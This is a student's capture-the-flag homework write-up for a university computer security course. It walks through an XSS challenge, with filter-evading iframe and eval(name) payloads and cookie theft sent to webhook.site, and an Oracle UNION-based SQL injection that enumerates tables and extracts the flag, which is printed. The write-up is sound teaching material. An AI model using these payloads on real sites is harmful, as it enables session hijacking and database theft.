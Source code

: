 # Computer Security Hw0x04 Writeup
* Realname: 胡安鳳
* ID on course web: alfons0329
* Student ID: R08922024
###### tags: `Computer Security` `NTU CS` `CS` `CTF` `Writeup`

## how2xss (XSS)
[Concept: CSRF + XSS](https://ephrain.net/security-%E4%BD%BF%E7%94%A8-webhook-site-%E6%8E%A5%E6%94%B6-csrfxss-%E9%80%8F%E9%81%8E-https-%E5%82%B3%E9%81%8E%E4%BE%86%E7%9A%84-cookie/)
[Eval redirect](https://xz.aliyun.com/t/3513)
[Eval redirect 2](https://zhuanlan.zhihu.com/p/51755143)

### Step 1, iframe
Use the iframe identifier to load the redirect page to our server `qvxz.ml` (self bought domain)
Payload = `<iFRame src=/\QVXZ.ML>`
![](https://i.imgur.com/WMOtNVx.png) where a small redirect will be shown on the 'Hack me' page.

### Step 2, eval(name)
Use eval(name) as (short) payload to send website out and combine with `<SVG/ONLoAD>`.
Then we use &#97 as the HTML entity of a and \u{65} is the unicode of e
`<SVG/ONLoAd=eval(n&#97;m\u{65})>` which prevents from being deprecated with same character case sensitively.

### Step 3, Make html page to fetch cookie and send it to our webhook site
Redirect to the xss page with the eval(name) then redirect to the webhook with the cookies.
Receive the cookie in `webhook.site` for flag.
![](https://i.imgur.com/GWtkC39.png)
![](https://i.imgur.com/MxpNeb8.png)

## Cathub v2 (SQL Injection)
The DBMS is Oracle
![](https://i.imgur.com/xv144du.png)

### Step 1, Determine the and type
There are 3 columns to search (error generates on order by 4)
![](https://i.imgur.com/HpUJyy6.png)

### Step 2, Search table name from current user
[Oracle manual ref](https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_4473.htm#REFRN26286)
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,table_name,null/**/from/**/(SELECT/**/ROWNUM/**/r,table_name/**/FROM/**/user_tables/**/ORDER/**/BY/**/table_name)/**/where/**/r=`
Use python request module to brute force search all the possible table names.
And we found table `S3CRET` at r=6 from `user_tables`.

### Step 3, Search column name from current user similar to Step 2
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,column_name,null/**/from/**/(SELECT/**/ROWNUM/**/r,column_name/**/FROM/**/user_tab_columns/**/ORDER/**/BY/**/column_name)/**/where/**/r=`
We found column `V3RY_S3CRET_C0LUMN` from `user_tab_columns`.

### Step 4, Find out the FLAG!
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,V3RY_S3CRET_C0LUMN,null/**/from/**/S3CRET`

`FLAG{HEY___OR@CLE_D4TAB4S3__INJ3CTI0N_I5____TO0OOO0OOO0OO_E4SY!!!!!??}` but should be converted to lower case.

